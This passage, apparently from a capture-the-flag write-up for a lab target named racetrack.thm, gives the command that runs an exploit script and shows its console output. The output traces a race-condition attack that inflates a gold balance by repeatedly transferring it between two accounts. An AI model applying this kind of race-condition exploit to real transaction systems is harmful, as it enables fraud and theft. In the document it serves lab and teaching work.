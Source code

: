 In order for the script to work we need to create two new accounts to get the `1 gold`, once you have them, run the script:

```
python3 exploit.py

ðŸŒŸ Gold Transfer Exploit v2.0
Target: racetrack.thm
Accounts: acc1, acc2


ðŸ Starting Gold Race Exploitation ðŸ

Target balance: 10,000 gold

â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•
[âš¡] Cycle #1: acc1 â†’ acc2
[ðŸ’°] acc1 balance: 1 gold

[âž¤] Initiating transfer of 1 gold to acc2
[âœ“] Transfer completed!
â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•
[âš¡] Cycle #2: acc2 â†’ acc1
[ðŸ’°] acc2 balance: 16 gold

[âž¤] Initiating transfer of 16 gold to acc1
[âœ“] Transfer completed!
â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•
[âš¡] Cycle #3: acc1 â†’ acc2
[ðŸ’°] acc1 balance: 160 gold

[âž¤] Initiating transfer of 160 gold to acc2
[âœ“] Transfer completed!
â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•
[âš¡] Cycle #4: acc2 â†’ acc1
[ðŸ’°] acc2 balance: 1600 gold

[âž¤] Initiating transfer of 1600 gold to acc1
[âœ“] Transfer completed!
â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•
[âš¡] Cycle #5: acc1 â†’ acc2
[ðŸ’°] acc1 balance: 20800 gold

[âž¤] Initiating transfer of 20800 gold to acc2
[âœ“] Transfer completed!

ðŸŽ‰ Exploit successful! Final balance: 20800 gold
```
